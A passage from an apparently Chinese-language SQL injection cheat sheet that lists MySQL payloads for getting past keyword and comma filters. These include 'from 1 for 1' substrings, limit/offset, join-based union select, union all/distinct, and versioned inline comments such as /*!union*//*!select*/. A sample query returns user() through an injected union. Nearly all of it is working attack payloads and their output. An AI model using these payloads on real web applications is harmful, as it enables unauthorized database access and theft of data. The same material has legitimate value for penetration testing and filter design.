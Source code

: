 + from for 绕过

使用`from 1 for 1` 绕过 `substr(str,1,1)`

```mysql
select substr(database() from 1 for 1)
```

```mysql
select mid(database() from 1 for 1)
```

```mysql
select mid(database()from(1)for(1))
```

+ limit offset绕过

使用`limit 1 offset 0` 绕过 `limit 0,1`

```mysql
select * from users limit 1 offset 0
```

+ join绕过

使用`union select * from (select 3)a join (select 4)b` 代替 `union select 3,4`

```mysql
select 1,2 from users union select * from (select 3)a join (select 4)b
```



### 5.5 绕过union select相关

+ 添加all/distinct关键字

如果只针对union select关键字设置黑名单，那么可以尝试在select前添加其他关键字绕过。

```mysql
union all select
union distinct select
```

+ 内联注释绕过union select关键字

```mysql
/*!union*//*!select*/
union/*!11440 select*/
union/*!11440select*/
union/*!77777cz*//*!77777cz*/select
```

```
mysql> select * from users where id='1' and 0 /*!union*//*!select*/1,2,user();
+----+----------+--------------------------+
| Id | username | password                 |
+----+----------+--------------------------+
|  1 | 2        | root@localhost           |
+----+----------+--------------------------+
```
